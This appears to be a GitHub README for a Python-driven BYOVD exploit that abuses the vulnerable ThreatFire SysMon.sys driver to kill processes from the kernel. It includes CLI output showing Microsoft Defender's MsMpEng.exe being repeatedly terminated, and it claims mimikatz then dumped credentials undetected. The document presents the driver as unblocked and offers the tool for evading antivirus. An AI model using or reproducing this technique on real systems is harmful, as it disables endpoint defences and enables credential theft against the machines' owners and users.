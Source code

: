 # TWAGD
Today Was A Good Day is a BYOVD exploit that uses Python to evade detection 

TWAGD uses the vulnerable TfSysMon driver from ThreatFire System Monitor (2013) called SysMon.sys to either singularly or perpetually terminate a process from the kernel. The script is written in Python to bypass standard executable detection mechanisms. 

As of 2/21/2025 the SysMon.sys driver is not blocked by Microsoft. 

Below is an output of the CLI when the constant or multi script is executed. 

```
python .\twagd_constant.py MsMpEng.exe
[!] Installing and starting the driver...
[SC] CreateService FAILED 1072:
The specified service has been marked for deletion.
[!] Driver service created successfully.
[SC] StartService FAILED 1058:
The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
[!] Driver started successfully.
[!] Monitoring process for termination. Press Enter to stop.
[!] Press Enter to stop monitoring and remove the driver...
[!] Killing process with PID: 3932
[!] Process with PID 3932 termination requested via driver.
[!] Killing process with PID: 7084
[!] Process with PID 7084 termination requested via driver.
[!] Killing process with PID: 9836
[!] Process with PID 9836 termination requested via driver.
[!] Killing process with PID: 9732
[!] Process with PID 9732 termination requested via driver.
[!] Killing process with PID: 7504
[!] Process with PID 7504 termination requested via driver.
[!] Killing process with PID: 11292
[!] Process with PID 11292 termination requested via driver.
[!] Killing process with PID: 4428
[!] Process with PID 4428 termination requested via driver.
[!] Killing process with PID: 1788
[!] Process with PID 1788 termination requested via driver.
[!] Stopping and removing the driver...
[SC] ControlService FAILED 1052:
The requested control is not valid for this service.
[SC] DeleteService FAILED 1072:
The specified service has been marked for deletion.
[!] Driver service deleted successfully.
```

During this execution, mimikatz.exe was dropped on disk, executed, and dumped credentials from memory without detection. On termination of the script, mimikatz.exe was still not detected until the next scan or if you tried to execute it while on disk. 

